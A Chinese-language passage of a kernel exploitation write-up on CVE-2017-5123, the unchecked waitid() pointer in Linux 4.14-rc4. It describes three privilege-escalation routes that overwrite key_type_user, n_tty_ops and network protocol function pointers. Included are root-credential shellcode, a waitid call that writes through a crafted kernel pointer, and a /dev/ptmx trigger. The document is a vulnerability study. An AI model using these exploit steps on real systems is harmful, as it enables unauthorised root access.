



# 【Kernel Exploit】CVE-2017-5123 漏洞分析

## 1. 测试环境

**测试版本**：Linux-4.14-rc4 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.14-rc4/01/bzImage)

笔者测试的内核版本是 `Linux (none) 4.14.0-rc4 #1 SMP Fri Feb 13 11:07:01 CST 2026 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_CGROUPS`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_DEBUG_LIST`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_CC_STACKPROTECTOR`、`CONFIG_CC_STACKPROTECTOR_STRONG`、`CONFIG_SLAB`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.14-rc4/01/.config)。

**保护机制**：KASLR/KPTI

## 2. 漏洞背景

**CVE-2017-5123** 是一个存在于 Linux 内核 `waitid()` 系统调用实现中的本地权限提升漏洞。该漏洞于 2017 年 10 月被公开披露，影响了从 Linux 内核 v4.13 到 v4.14-rc4 的版本。具体来说：

- **受影响的版本**：Linux 内核 v4.13 至 v4.14-rc4。
- **已修复的版本**：Linux 内核 v4.14-rc5 及 v4.14.1 版本包含了针对此漏洞的修复补丁。
- **本文测试环境**：Linux 内核 v4.14-rc4，此版本**尚未**包含修复补丁，因此可以用于研究和复现此漏洞。

**技术背景**：`waitid()` 系统调用允许进程等待其子进程的状态发生变化（例如终止、停止等）。调用者可以提供一个指向用户空间 `siginfo_t` 结构体的指针 `infop`，内核在检测到状态变化后，会将相关的子进程信息填充到这个结构体中。此漏洞的核心在于，内核在向这个用户提供的指针写入数据之前，**未能正确验证该指针所指向内存区域的合法性与访问权限**。

## 3. 漏洞分析

漏洞位于 `kernel/exit.c` 文件中的 `SYSCALL_DEFINE5(waitid, ...)` 系统调用实现函数内。下面的代码片段展示了存在漏洞的版本（v4.14-rc4）的关键部分。

**存在漏洞的系统调用实现 (`SYSCALL_DEFINE5(waitid, ...)`)**

```c
SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
		infop, int, options, struct rusage __user *, ru)
{
	struct rusage r;
	struct waitid_info info = {.status = 0};
	long err = kernel_waitid(which, upid, &info, options, ru ? &r : NULL);
	int signo = 0;

	if (err > 0) {
		signo = SIGCHLD;	/* 子进程状态改变，设置相应的信号编号 */
		err = 0;
		/* 注意：这里对 `ru` 指针使用了 `copy_to_user`，该函数包含健全性检查 */
		if (ru && copy_to_user(ru, &r, sizeof(struct rusage)))
			return -EFAULT;
	}
	if (!infop) /* 如果用户不关心 siginfo 信息，直接返回 */
		return err;

	/* ！！！ 关键漏洞点：缺少对 `infop` 指针的权限检查 ！！！ */
	/* 在尝试写入用户空间之前，没有调用 `access_ok(VERIFY_WRITE, ...)` */
	user_access_begin();	/* 开始对用户空间内存的非特权访问 */
	/* 以下 `unsafe_put_user` 调用会直接向 `infop` 指向的地址写入数据 */
	unsafe_put_user(signo, &infop->si_signo, Efault);
	unsafe_put_user(0, &infop->si_errno, Efault);
	unsafe_put_user(info.cause, &infop->si_code, Efault);
	unsafe_put_user(info.pid, &infop->si_pid, Efault);
	unsafe_put_user(info.uid, &infop->si_uid, Efault);
	unsafe_put_user(info.status, &infop->si_status, Efault);
	user_access_end();
	return err;
Efault:
	user_access_end();
	return -EFAULT;
}
```

**漏洞本质**：

1.  **缺失的检查**：代码在调用 `user_access_begin()` 和一系列 `unsafe_put_user()` 之前，**完全缺失**对 `infop` 指针的合法性检查。`unsafe_put_user()` 宏本身是高性能但“不安全”的，它假设调用者已经确保目标地址是有效的用户空间地址。这个责任落在了调用函数 `SYSCALL_DEFINE5(waitid, ...)` 上，但它没有履行。
2.  **核心风险**：由于缺少 `access_ok()` 检查，内核无法验证 `infop` 指针指向的是否为合法的、当前进程可写的用户空间内存。这导致一个关键的安全边界失效：内核空间与用户空间的地址隔离。恶意利用者可将 `infop` 参数设置为一个内核空间的地址，内核会误以为这是一个合法的用户空间地址，并尝试向其写入数据。这构成了**向任意内核地址写入受控数据**的原语，例如写入 `signo`、`info.pid` 等由漏洞触发上下文决定的值。
3.  **潜在的利用场景**：通过精心构造，恶意利用者可能利用此原语修改内核中的关键数据（如函数指针、权限标志、或已认证的凭据），从而破坏内核的完整性，并最终实现从普通用户权限到更高权限的提升。

**相关辅助函数**

- **`kernel_waitid` 函数**：这是一个内部辅助函数，负责参数验证和执行实际的等待逻辑。它本身不涉及向用户空间写入数据，因此不是漏洞的直接来源。

```c
static long kernel_waitid(int which, pid_t upid, struct waitid_info *infop,
			  int options, struct rusage *ru)
{
	struct wait_opts wo;	/* 等待选项结构体 */
	struct pid *pid = NULL;	/* PID结构体指针 */
	enum pid_type type;	/* PID类型枚举 */
	long ret;	/* 返回值 */

	/* 检查options参数的合法性，过滤掉不支持的标志位 */
	if (options & ~(WNOHANG|WNOWAIT|WEXITED|WSTOPPED|WCONTINUED|
			__WNOTHREAD|__WCLONE|__WALL))
		return -EINVAL;	/* 无效参数 */
	/* 确保至少设置了WEXITED、WSTOPPED、WCONTINUED中的一个 */
	if (!(options & (WEXITED|WSTOPPED|WCONTINUED)))
		return -EINVAL;	/* 无效参数 */

	switch (which) {	/* 根据which参数确定PID类型 */
	case P_ALL:	/* 等待所有子进程 */
		type = PIDTYPE_MAX;
		break;
	case P_PID:	/* 等待特定PID的进程 */
		type = PIDTYPE_PID;
		if (upid <= 0)	/* PID必须为正数 */
			return -EINVAL;
		break;
	case P_PGID:	/* 等待特定进程组的所有进程 */
		type = PIDTYPE_PGID;
		if (upid <= 0)	/* PGID必须为正数 */
			return -EINVAL;
		break;
	default:	/* 不支持的which参数 */
		return -EINVAL;	/* 无效参数 */
	}

	if (type < PIDTYPE_MAX)	/* 如果不是P_ALL，需要获取PID结构 */
		pid = find_get_pid(upid);	/* 查找并获取PID结构 */

	/* 填充等待选项结构体 */
	wo.wo_type	= type;		/* PID类型 */
	wo.wo_pid	= pid;		/* PID结构体指针 */
	wo.wo_flags	= options;	/* 选项标志 */
	wo.wo_info	= infop;	/* 等待信息结构体 */
	wo.wo_rusage	= ru;		/* 资源使用结构体 */
	ret = do_wait(&wo);	/* 执行等待操作 */

	put_pid(pid);	/* 释放PID结构体的引用 */
	return ret;	/* 返回等待结果 */
}
```

**`siginfo_t`结构体定义**：这是内核与用户空间之间传递信号信息的标准数据结构。`waitid()` 使用其 `_sigchld` 字段来返回子进程信息。漏洞允许恶意利用者控制这个结构体在**内核中**的写入目标。

```c
typedef struct siginfo {
	int si_signo;		/* 信号编号 */
	int si_errno;		/* 错误号（如果没有错误则为0） */
	int si_code;		/* 信号代码，表示信号产生的原因 */

	union {	/* 联合体，根据信号类型存储不同的信息 */
		int _pad[SI_PAD_SIZE];	/* 填充字段，保证结构体大小 */

		/* kill() 信号的数据结构 */
		struct {
			__kernel_pid_t _pid;	/* 发送信号的进程ID */
			__ARCH_SI_UID_T _uid;	/* 发送信号的用户ID */
		} _kill;

		/* POSIX.1b 定时器信号的数据结构 */
		struct {
			__kernel_timer_t _tid;	/* 定时器ID */
			int _overrun;		/* 超时计数 */
			char _pad[sizeof( __ARCH_SI_UID_T) - sizeof(int)];	/* 填充对齐 */
			sigval_t _sigval;	/* 信号值 */
			int _sys_private;       /* 系统私有数据，不传递给用户 */
		} _timer;

		/* POSIX.1b 实时信号的数据结构 */
		struct {
			__kernel_pid_t _pid;	/* 发送信号的进程ID */
			__ARCH_SI_UID_T _uid;	/* 发送信号的用户ID */
			sigval_t _sigval;	/* 信号值 */
		} _rt;

		/* SIGCHLD 信号的数据结构（waitid相关） */
		struct {
			__kernel_pid_t _pid;	/* 哪个子进程 */
			__ARCH_SI_UID_T _uid;	/* 发送信号的用户ID */
			int _status;		/* 退出码或信号 */
			__ARCH_SI_CLOCK_T _utime;	/* 用户态CPU时间 */
			__ARCH_SI_CLOCK_T _stime;	/* 内核态CPU时间 */
		} _sigchld;

		/* SIGILL, SIGFPE, SIGSEGV, SIGBUS 信号的数据结构 */
		struct {
			void __user *_addr; /* 导致错误的指令/内存引用地址 */
#ifdef __ARCH_SI_TRAPNO
			int _trapno;	/* 导致信号的陷阱号 */
#endif
			short _addr_lsb; /* 报告地址的最低有效位 */
			union {
				/* 用于SEGV_BNDERR错误（边界检查错误） */
				struct {
					void __user *_lower;	/* 下边界 */
					void __user *_upper;	/* 上边界 */
				} _addr_bnd;
				/* 用于SEGV_PKUERR错误（内存保护键错误） */
				__u32 _pkey;	/* 内存保护键 */
			};
		} _sigfault;

		/* SIGPOLL 信号的数据结构 */
		struct {
			__ARCH_SI_BAND_T _band;	/* POLL_IN, POLL_OUT, POLL_MSG标志 */
			int _fd;	/* 文件描述符 */
		} _sigpoll;

		/* SIGSYS 信号的数据结构 */
		struct {
			void __user *_call_addr; /* 调用的用户空间指令地址 */
			int _syscall;	/* 触发系统调用号 */
			unsigned int _arch;	/* 系统调用的架构标识 */
		} _sigsys;
	} _sifields;	/* 联合体字段 */
} __ARCH_SI_ATTRIBUTES siginfo_t;	/* 带有架构特定属性的siginfo_t */
```

## 4. 利用思路一

本利用思路的核心是利用Linux内核的`key`子系统。内核中`key_type_user`结构体包含了多个函数指针，其中`preparse`函数指针在密钥实例化过程中会被调用。利用思路是通过漏洞修改`key_type_user->preparse`指针，使其指向用户空间控制的shellcode，然后通过触发密钥分配操作来执行该shellcode，最终实现权限提升。

### 4--1. 关键技术步骤

1. **内存布局准备**：
    - 在用户空间预先分配地址`0x100000000`的内存区域，并设置执行权限
    - 在该地址放置精心构造的shellcode，完成权限提升和状态恢复功能

2. **函数指针篡改**：
    - 通过`waitid()`漏洞将`key_type_user->preparse`指针修改为`0x100000000`
    - 由于漏洞写入的是32位值，需要确保目标地址的高32位为0，低32位为`0x100000000`

3. **触发执行路径**：
    - 调用`key_alloc()`函数分配密钥，触发`preparse`回调
    - 内核执行位于`0x100000000`的shellcode

4. **状态恢复**：
    - Shellcode在执行权限提升后，必须恢复被修改的`key_type_user`结构体
    - 将`preparse`、`free_preparse`、`instantiate`等函数指针恢复为原始值
    - 避免系统崩溃，确保密钥子系统继续正常工作

### 4--2. Shellcode设计与实现

在`0x100000000`地址部署的shellcode需要完成以下关键功能：

```assembly
; 示例shellcode结构（伪代码表示）
shellcode_start:
    ; 1. 恢复被破坏的key_type_user结构
    mov  rdi, [key_type_user]      ; 获取key_type_user结构地址
    mov  qword ptr [rdi+0x10], 0   ; 恢复flags字段
    mov  rsi, user_preparse        ; 原始user_preparse函数地址
    mov  qword ptr [rdi+0x18], rsi ; 恢复preparse指针
    mov  rsi, user_free_preparse   ; 原始user_free_preparse函数地址
    mov  qword ptr [rdi+0x20], rsi ; 恢复free_preparse指针
    mov  rsi, generic_key_instantiate ; 原始instantiate函数地址
    mov  qword ptr [rdi+0x28], rsi    ; 恢复instantiate指针

    ; 2. 执行权限提升
    mov  rdi, 0
    call prepare_kernel_cred        ; 获取root凭证
    mov  rdi, rax
    call commit_creds              ; 应用凭证

    ; 3. 安全返回用户态
    swapgs                         ; 切换GS段寄存器
    iretq                          ; 返回到用户空间
```

**关键设计考虑**：

- **位置无关代码**：Shellcode需要能够在内核上下文中独立运行
- **寄存器保护**：保存和恢复关键寄存器状态
- **内存访问**：通过相对寻址或全局变量访问内核数据结构
- **错误处理**：包含适当的错误检查和处理逻辑

### 4--3. 内核地址信息获取

利用过程需要准确的内核符号地址，包括：

- `commit_creds` 和 `prepare_kernel_cred` 函数地址
- `key_type_user` 结构体地址
- 原始的`user_preparse`、`user_free_preparse`、`generic_key_instantiate`函数地址

这些地址可以通过分析内核镜像或访问`/proc/kallsyms`等系统接口获取。在利用程序中，通常通过解析内核符号表来动态获取这些地址。

### 4--4. 利用流程时序图

以下是完整的利用过程时序图，展示了用户空间、内核空间和漏洞利用关键步骤的交互：



### 4--5. 技术挑战与应对

1. **地址空间布局随机化（KASLR）**：
    - 需要绕过内核地址随机化
    - 通过信息泄露或符号解析获取准确地址
    - 利用程序中通过`/proc/kallsyms`或类似机制获取地址

2. **内存保护机制**：
    - 确保用户空间内存可执行
    - 通过`mmap`设置`PROT_EXEC`标志
    - 使用`MAP_FIXED`确保精确的内存布局

3. **竞争条件处理**：
    - `waitid()`调用需要子进程状态变化
    - 通过`fork()`和`_exit()`创建立即退出的子进程
    - 使用`WEXITED`选项确保等待成功

4. **系统稳定性**：
    - Shellcode中必须恢复被篡改的内核结构
    - 避免内存泄漏和引用计数问题
    - 确保密钥子系统功能正常

### 4--6. 安全影响与缓解

该利用思路展示了 **CVE-2017-5123** 漏洞的严重性，能够实现从普通用户权限到root权限的提升。修复此漏洞至关重要，通过添加`access_ok()`检查，可以防止此类利用。

**缓解措施**：

1. 及时应用内核安全更新
2. 启用完整的内核安全特性（KASLR、SMEP、SMAP等）
3. 限制对内核符号表的访问权限
4. 监控异常的系统调用模式

### 4--7. 技术总结

本利用思路展示了如何将 **CVE-2017-5123** 的有限写入原语转化为完整的权限提升利用链。通过结合内核`key`子系统的特性，精心构造内存布局和执行流程，成功实现了权限提升。这个案例强调了即使看似有限的漏洞原语，在结合适当的系统特性和利用技巧后，也可能造成严重的安全影响。同时，它也凸显了在内核开发中，对所有用户空间指针进行严格验证的重要性。

### 4--8. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 5. 利用思路二

### 5-1. 利用n_tty_ops结构体

本利用思路针对Linux内核的tty（终端）子系统。tty子系统负责处理终端设备的输入输出，其核心是线路规程（line discipline）机制。N_TTY是默认的线路规程，其操作由`n_tty_ops`结构体定义，包含了一系列函数指针，其中`open`函数是终端设备打开时的初始化回调。

**n_tty_ops结构体定义**：

```c
static struct tty_ldisc_ops n_tty_ops = {
	.magic           = TTY_LDISC_MAGIC,  /* 魔术值，标识这是一个tty_ldisc_ops结构 */
	.name            = "n_tty",          /* 线路规程名称 */
	.open            = n_tty_open,       /* 打开线路规程时的初始化函数，偏移0x10（16字节）*/
	.close           = n_tty_close,      /* 关闭线路规程时的清理函数，偏移0x18（24字节）*/
	.flush_buffer    = n_tty_flush_buffer, /* 刷新缓冲区函数，偏移0x20（32字节）*/
	.read            = n_tty_read,       /* 读取终端数据的函数 */
	.write           = n_tty_write,      /* 向终端写入数据的函数 */
	.ioctl           = n_tty_ioctl,      /* 处理ioctl命令的函数 */
	.set_termios     = n_tty_set_termios, /* 设置终端属性的函数 */
	.poll            = n_tty_poll,       /* 轮询终端状态的函数 */
	.receive_buf     = n_tty_receive_buf, /* 接收数据缓冲区的函数 */
	.write_wakeup    = n_tty_write_wakeup, /* 写入唤醒回调函数 */
	.receive_buf2    = n_tty_receive_buf2, /* 接收数据缓冲区备用函数 */
};
```

### 5-2. 利用原理

`n_tty_ops`结构体位于内核的可读写数据段，其函数指针字段可以通过 **CVE-2017-5123** 漏洞进行修改。利用思路是篡改`n_tty_ops.open`函数指针，使其指向用户空间控制的shellcode地址（0x100000000）。当用户程序打开终端设备时，内核会调用被篡改的`open`函数指针，从而执行shellcode。

**技术特点**：

1. **可靠触发**：终端设备打开操作相对稳定，易于控制触发时机
2. **早期执行**：`open`函数在线路规程初始化时被调用，执行时机较早
3. **结构体稳定性**：`n_tty_ops`是全局静态结构体，地址固定，易于定位
4. **恢复简单**：只需恢复被篡改的几个关键函数指针

### 5-3. 利用步骤详解

#### 5-3-1. 信息收集与准备

- **内核符号解析**：从`/tmp/kallsyms`文件解析内核符号地址，包括：
    - `prepare_kernel_cred`和`commit_creds`函数地址
    - `n_tty_ops`结构体地址
    - 原始的`n_tty_open`、`n_tty_close`、`n_tty_flush_buffer`函数地址
- **内存布局**：在用户空间0x100000000地址分配可执行内存，部署shellcode
- **地址计算**：根据内核基址和符号偏移计算实际地址

#### 5-3-2. 函数指针篡改

通过 **CVE-2017-5123** 漏洞修改`n_tty_ops.open`指针。代码中使用的偏移计算为：

- `n_tty_ops.open`偏移：0x10（16字节）
- 实际写入地址：`n_tty_ops + 4 + 0x10`（额外加4用于对齐调整）

**写入操作**：

```c
siginfo_t *ptr = (siginfo_t *)(n_tty_ops + 4 + 0x10);
waitid(P_PID, pid, ptr, WEXITED);
```

#### 5-3-3. Shellcode设计

shellcode需要完成以下任务，代码中通过`get_root`函数实现：

1. **恢复被篡改的结构体**：
    - 恢复`n_tty_ops.open`指针为原始`n_tty_open`函数
    - 恢复`n_tty_ops.close`指针为原始`n_tty_close`函数
    - 恢复`n_tty_ops.flush_buffer`指针为原始`n_tty_flush_buffer`函数
    - 将`n_tty_ops.flags`字段恢复为0

2. **权限提升**：
    - 调用`prepare_kernel_cred(0)`创建root凭据
    - 调用`commit_creds()`应用新凭据

3. **安全返回**：
    - 跳转到原始的`n_tty_open`函数继续执行
    - 最终返回到用户空间

**shellcode内存布局**：

```
0x100000000: FF 25 02 00 00 00 90 90  [get_root函数地址]
              ^  ^  ^  ^  ^  ^  ^  ^
              |  |  |  |  |  |  |  |
              jmp [rip+0x2]指令       nop nop填充
```

#### 5-3-4. 触发机制

通过打开伪终端设备`/dev/ptmx`触发执行：

```c
// 触发n_tty_ops->open调用
open("/dev/ptmx", O_RDWR);
```

### 5-5. 利用流程时序图

以下时序图展示了完整的利用过程：



### 5-6. 技术挑战与解决方案

**挑战1：地址对齐与写入限制**

- **问题**：**CVE-2017-5123** 只能写入32位值，而64位内核地址通常高32位不为0
- **解决方案**：选择shellcode地址使其高32位为0，如0x100000000

**挑战2：符号解析依赖**

- **问题**：需要准确的内核符号地址
- **解决方案**：从`/tmp/kallsyms`文件解析，支持动态地址获取

**挑战3：内存分配失败**

- **问题**：固定地址内存分配可能失败
- **解决方案**：实现备用地址分配策略

### 5-7. 防御与缓解措施

**1. 漏洞修复**

- 应用内核安全补丁，添加`access_ok()`检查
- 启用KASLR增加地址预测难度
- 使用SMAP/SMEP防止用户空间代码执行

**2. 运行时防护**

- 监控内核关键结构体修改
- 检测异常的系统调用模式
- 使用完整性检查机制

**3. 配置加固**

- 限制对内核符号表的访问
- 加强终端设备的访问控制
- 使用命名空间隔离终端环境

### 5-8. 技术总结

本利用方案展示了通过篡改tty子系统`n_tty_ops.open`函数指针实现权限提升的方法。利用代码通过精确的符号解析、内存布局和shellcode设计，实现了可靠的权限提升。

成功利用的关键因素包括：

1. 准确的内核符号地址信息
2. 稳定的内存布局和shellcode设计
3. 可靠的漏洞触发机制
4. 完整的结构恢复逻辑

这个案例说明了 **CVE-2017-5123** 漏洞的严重性，以及在内核开发中严格验证用户空间指针的重要性。

### 5-9. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 6. 利用思路三

### 6-1. 利用网络协议栈结构体

本利用思路针对Linux内核网络协议栈中的两个关键数据结构：`udp_prot` 和 `tcp_prot`。这些结构体定义了UDP和TCP协议的实现接口，包含了一系列函数指针，其中`sendmsg`和`recvmsg`函数是网络数据发送和接收的核心回调。由于这些结构体位于内核的.bss段（未初始化数据段），其地址相对稳定，是理想的利用目标。

**网络协议栈架构**：Linux内核的网络协议栈采用分层设计，`struct proto`结构体是传输层协议（如TCP、UDP）的操作接口集合。当应用程序通过socket接口进行网络通信时，内核最终会调用这些结构体中相应的函数指针来完成实际的数据传输。

### 6-2. 目标结构体分析

**udp_prot结构体**

```c
struct proto udp_prot = {
	.name		   = "UDP",				/* 协议名称 */
	.owner		   = THIS_MODULE,		/* 所属模块 */
	.close		   = udp_lib_close,		/* 关闭socket时的清理函数 */
	.connect	   = ip4_datagram_connect,	/* 建立连接 */
	.disconnect	   = udp_disconnect,	/* 断开连接 */
	.ioctl		   = udp_ioctl,		/* ioctl操作处理 */
	.init		   = udp_init_sock,		/* socket初始化 */
	.destroy	   = udp_destroy_sock,	/* socket销毁 */
	.setsockopt	   = udp_setsockopt,	/* 设置socket选项 */
	.getsockopt	   = udp_getsockopt,	/* 获取socket选项 */
	.sendmsg	   = udp_sendmsg,		/* 发送UDP消息，偏移0x28（40字节）*/
	.recvmsg	   = udp_recvmsg,		/* 接收UDP消息，偏移0x30（48字节）*/
	.sendpage	   = udp_sendpage,		/* 发送页面数据 */
	.release_cb	   = ip4_datagram_release_cb,	/* 释放回调 */
	.hash		   = udp_lib_hash,		/* hash表操作 */
	.unhash		   = udp_lib_unhash,	/* 从hash表移除 */
	.rehash		   = udp_v4_rehash,		/* 重新hash */
	.get_port	   = udp_v4_get_port,	/* 获取端口 */
	.memory_allocated  = &udp_memory_allocated,	/* 已分配内存统计 */
	.sysctl_mem	   = sysctl_udp_mem,	/* sysctl内存设置 */
	.sysctl_wmem	   = &sysctl_udp_wmem_min,	/* 写缓冲区最小值 */
	.sysctl_rmem	   = &sysctl_udp_rmem_min,	/* 读缓冲区最小值 */
	.obj_size	   = sizeof(struct udp_sock),	/* 对象大小 */
	.h.udp_table	   = &udp_table,	/* UDP表指针 */
#ifdef CONFIG_COMPAT
	.compat_setsockopt = compat_udp_setsockopt,	/* 兼容模式设置选项 */
	.compat_getsockopt = compat_udp_getsockopt,	/* 兼容模式获取选项 */
#endif
	.diag_destroy	   = udp_abort,		/* 诊断销毁 */
};
EXPORT_SYMBOL(udp_prot);	/* 导出符号，全局可见 */
```

**tcp_prot结构体**

```c
struct proto tcp_prot = {
	.name			= "TCP",		/* 协议名称 */
	.owner			= THIS_MODULE,		/* 所属模块 */
	.close			= tcp_close,		/* 关闭socket */
	.connect		= tcp_v4_connect,	/* TCP连接建立 */
	.disconnect		= tcp_disconnect,	/* 断开连接 */
	.accept			= inet_csk_accept,	/* 接受连接 */
	.ioctl			= tcp_ioctl,		/* ioctl操作 */
	.init			= tcp_v4_init_sock,	/* socket初始化 */
	.destroy		= tcp_v4_destroy_sock,	/* socket销毁 */
	.shutdown		= tcp_shutdown,		/* 关闭连接 */
	.setsockopt		= tcp_setsockopt,	/* 设置socket选项 */
	.getsockopt		= tcp_getsockopt,	/* 获取socket选项 */
	.keepalive		= tcp_set_keepalive,	/* 保持连接活跃 */
	.recvmsg		= tcp_recvmsg,		/* 接收TCP消息，偏移0x48（72字节）*/
	.sendmsg		= tcp_sendmsg,		/* 发送TCP消息，偏移0x40（64字节）*/
	.sendpage		= tcp_sendpage,		/* 发送页面数据 */
	.backlog_rcv		= tcp_v4_do_rcv,	/* 积压接收处理 */
	.release_cb		= tcp_release_cb,	/* 释放回调 */
	.hash			= inet_hash,		/* hash操作 */
	.unhash			= inet_unhash,		/* 从hash表移除 */
	.get_port		= inet_csk_get_port,	/* 获取端口 */
	.enter_memory_pressure	= tcp_enter_memory_pressure,	/* 内存压力进入 */
	.leave_memory_pressure	= tcp_leave_memory_pressure,	/* 内存压力离开 */
	.stream_memory_free	= tcp_stream_memory_free,	/* 流内存释放 */
